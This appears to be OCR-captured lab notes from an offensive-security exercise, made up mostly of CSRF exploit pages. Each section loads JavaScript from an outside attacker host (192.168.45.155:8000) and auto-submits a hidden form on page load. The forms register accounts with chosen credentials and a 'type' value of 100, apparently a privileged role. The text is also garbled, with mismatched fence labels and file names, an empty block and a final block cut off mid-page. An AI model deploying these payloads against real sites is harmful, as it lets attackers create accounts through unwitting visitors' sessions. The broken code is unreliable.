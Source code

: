 ```html
```



`csrf4test.html`
`<script src="http://192.168.45.155:8000/csrftest4.js"></script>`
```bash
<html>
<body onload="document.forms['pwn'].submit()">
<form method="POST" action="http://localhost/loginLogout" accept-charset="UTF-8" name="pwn" enctype="multipart/form-data">
<input type="hidden" name="username" value="offsec"/>
<input type="hidden" name="password" value="offsec"/>
<input type="hidden" name="firstName" value="offsec"/>
<input type="hidden" name="lastName" value="offsec"/>
<input type="hidden" name="email" value="offsec@offsectest.local"/>
<input type="hidden" name="type" value="100"/>
<input type="hidden" name="dType" value="isRegister"/>
</form>
</body>
</html>
```

`csrf5.html`

`<script src="http://192.168.45.155:8000/csrf5.js"></script>`
```js
<html>
<head>
  <script>
    // This function submits the form automatically when the page loads
    function submitForm() {
      document.forms['csrf'].submit();
    }
  </script>
</head>
<body onload="submitForm();">
  
  <form action="/loginLogout" method="POST" accept-charset="UTF-8" name="csrf" enctype="multipart/form-data" style="display:none;">
    <input type="hidden" name="username" value="bugstwo">
    <input type="hidden" name="password" value="bugstwo">
    <input type="hidden" name="firstName" value="bugstwo">
    <input type="hidden" name="lastName" value="bugstwo">
    <input type="hidden" name="email" value="bugstwo@local.com">
    <input type="hidden" name="dtype" value="isRegister">
    <input type="hidden" name="type" value="100">
  </form>
</body>
</html>

```

`csrf6.js`
`<script src="http://192.168.45.155:8000/csrf6.js"></script>`
```js
<html>
<head>
  <script>
    // This function submits the form automatically when the page loads
    function submitForm() {
      document.forms['csrf'].submit();
    }
  </script>
</head>
<body onload="submitForm();">
  
```